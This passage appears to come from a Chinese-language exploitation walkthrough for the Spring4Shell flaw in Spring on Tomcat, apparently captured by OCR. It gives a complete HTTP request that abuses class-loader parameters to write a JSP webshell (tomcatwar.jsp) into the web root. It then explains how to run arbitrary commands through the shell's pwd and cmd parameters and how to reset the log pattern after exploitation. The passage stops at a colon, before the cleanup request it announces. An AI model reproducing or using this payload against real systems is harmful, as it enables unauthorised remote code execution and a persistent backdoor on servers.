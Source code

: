 ```http
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1
Host: 127.0.0.1:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) 	AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 		Safari/537.36
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1


```

ROOT目录下就会出现一个jsp文件，这就是写入的webshell。

![image-20230524110228934](./img/spring/image-20230524110228934.png)

然后访问/tomcatwar.jsp?pwd=j&cmd=  即可执行命令。

![image-20230524111204263](./img/spring/image-20230524111204263.png)

注意，需要在利用完成后将`class.module.classLoader.resources.context.parent.pipeline.first.pattern`清空，否则每次请求都会写入新的恶意代码在JSP Webshell中，导致这个文件变得很大。发送如下数据包将其设置为空：
